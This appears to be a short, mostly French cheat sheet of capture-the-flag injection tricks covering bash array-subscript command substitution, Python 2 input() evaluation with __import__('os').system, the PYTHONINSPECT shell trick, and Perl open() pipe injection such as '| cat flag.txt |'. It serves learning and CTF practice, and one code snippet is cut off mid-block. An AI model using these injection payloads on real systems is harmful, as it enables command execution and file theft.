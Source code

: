 ## [Bash Broken input](#Bash-Broken-input)
## [Python 2.17](#Python2.17)
## [Perl Injection](#Perlinjec)


-------


## [Bash Broken input]
<a name="Bash-Broken-input"></a>
Dans un script bash, on peut évaluer des choses même si ces choses là sont dans des ' .

Basiquement, lorsqu'on met une variable comme FOO=42 et qu'on l'invoque avec '$FOO', la réponse sera : $FOO et non pas 42.

Par contre, bash évalue et expanse ce quil y a à l'intérieur de tableau.

Donc par exemple, si on fait FOO="x[$(echo toto)]" et qu'on fait '$FOO' on aura : toto.



<a name="Python2.17"></a>
## [Python 2.17]
Avec python 2.7.17 on peut acceder a n'importe quelle fonction dans le script, ou bien importer une fonction via __import__:

__import__('sys').stdout.write(open("flag.txt", 'r').read())
__import__('os').system('cat flag.txt> /tmp/flag.txt')

=> GOTO flag.txt

Ou bien :

#!/usr/bin/python2

import sys

def ultrasecret():
    open("supersecret", 'r').read()
    sys.exit(1)

try:
    p = input("Please enter password : ")
    

Please enter password : ultrasecret()

PYTHONINSPECT=YesMyLord ./xx
Please enter password : blabla !
Traceback (most recent call last):
<SNIP>
>>> f = open("flag")
>>> print f.readlines()
['...']
    

## [Perl Injection]
<a name="Perlinjec"></a>
Perl command Injection :

The open() function can be used to pass a command :
# ex : “| cat flag.txt |”
